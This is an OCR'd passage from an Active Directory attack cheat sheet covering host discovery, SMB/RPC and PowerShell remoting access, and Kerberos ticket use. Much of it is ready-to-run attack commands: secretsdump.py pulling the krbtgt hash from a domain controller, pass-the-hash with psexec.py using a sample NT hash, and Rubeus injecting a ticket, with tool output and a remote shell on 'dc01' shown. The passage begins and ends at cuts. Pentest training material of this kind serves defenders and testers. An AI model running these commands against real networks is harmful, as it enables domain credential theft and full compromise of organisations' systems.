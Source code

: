 ```
secretsdump.py 'contoso.local/Administrator@192.168.100.2' -just-dc-user krbtgt
```

**How to discover Windows computers in a domain or network?**

* ([NetBIOS name service](https://zer1t0.gitlab.io/posts/attacking\_ad/#netbios-name-service) listens in the port 137) We can scan the network and perform a NetBIOS scan by using a tool like [nbtscan](http://www.unixwiz.net/tools/nbtscan.html) or nmap [nbtstat](https://nmap.org/nsedoc/scripts/nbstat.html) script.
* ([SMB](https://zer1t0.gitlab.io/posts/attacking\_ad/#smb) listens in the port 445) We can take advantage of the NTLM authentication negotiation to retrieve the machine name. You can perform an scan with [ntlm-info](https://github.com/Zer1t0/ntlm-info) or nmap [smb-os-discovery](https://nmap.org/nsedoc/scripts/smb-os-discovery.html) script.

#### How to connect with RPC/SMB

* If you have port 445 open, you can use tools such as [PsExec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec) and the impacket examples [psexec.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py), [wmiexec.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/wmiexec.py) ([wmiexec.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/wmiexec.py) will also need the port 135)
* You can also perform Pass-the-hash with the NT or LM hash directly with impacket tools:

```
psexec.py contoso.local/Anakin@192.168.100.10 -hashes :cdeae556dc28c24b5b7b14e9df5b6e21
```

* With the PsExec tool, [inject the NT hash in the Windows session with mimikatz](https://stealthbits.com/blog/passing-the-hash-with-mimikatz/).

With those techniques we connect via NTLM auth, but by default Kerberos is used and we would need to provide a kerberos tickets with those tools

* in Windows we will need to [inject the ticket in the session](https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a#using-ticket-in-windows) by using [mimikatz](https://github.com/gentilkiwi/mimikatz) or [Rubeus](https://github.com/GhostPack/Rubeus).

Windows and linux use different ticket formay that we can convert using [ticket\_converter](https://github.com/Zer1t0/ticket\_converter) or [cerbero](https://github.com/Zer1t0/cerbero#convert).

#### How to use **Powershell Remoting to connect**

to connect to a Windows machine and get a Powershell session in the remote machine

* From windows we need to use [CmdLets and parameters](https://docs.microsoft.com/en-us/powershell/scripting/learn/ps101/08-powershell-remoting?view=powershell-7.1)
  * if we have a Kerberos ticket or a NT hash, we will need to inject them by using [Rubeus](https://github.com/GhostPack/Rubeus) or [mimikatz](https://github.com/gentilkiwi/mimikatz).

```
.\Rubeus.exe asktgt /user:Administrator /rc4:b73fdfe10e87b4ca5c0d957f81de6863 /ptt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.6.1

[*] Action: Ask TGT

[*] Using rc4_hmac hash: b73fdfe10e87b4ca5c0d957f81de6863
[*] Building AS-REQ (w/ preauth) for: 'contoso.local\Administrator'
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIFQjCCBT6gAwIBBaEDAgEWooIETzCCBEthggRHMIIEQ6ADAgEFoQ8bDUNPTlRPU08uTE9DQUyiIjAg
```

[dc01]: PS C:\Users\Administrator\Documents> whoami
[dc01]: PS C:\Users\Administrator\Documents> hostname